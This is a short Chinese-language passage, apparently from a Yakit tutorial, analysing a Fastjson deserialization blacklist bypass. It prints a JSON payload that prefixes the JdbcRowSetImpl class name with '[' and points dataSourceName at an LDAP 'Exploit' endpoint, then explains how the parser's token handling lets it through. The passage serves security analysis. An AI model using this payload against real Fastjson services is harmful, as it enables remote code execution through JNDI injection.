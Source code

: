 ![](/img/products/yakit/json-setXxx-1.png)

再看看，如果类名是[开头的payload

```JSON
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{, "dataSourceName":"ldap://127.0.0.1:1389/Exploit", "autoCommit":true}
```
`[com.sun.rowset.JdbcRowSetImpl`加载时得到的是数组类型

关键是如何在反序列化时，将属性值赋值给JdbcRowSetImpl对象，所以重点关注词法分析器如何解析json的

在数组反序列化器中调用了parseArray方法，根据成员类型，再反序列化`com.sun.rowset.JdbcRowSetImpl`

如图，获取到类名后，调用nextToken(16)，这里的16标志着期待下一个字符是`}`,结尾（但实际上下一个字符是`[`）

![](/img/products/yakit/json-nextToken.png)
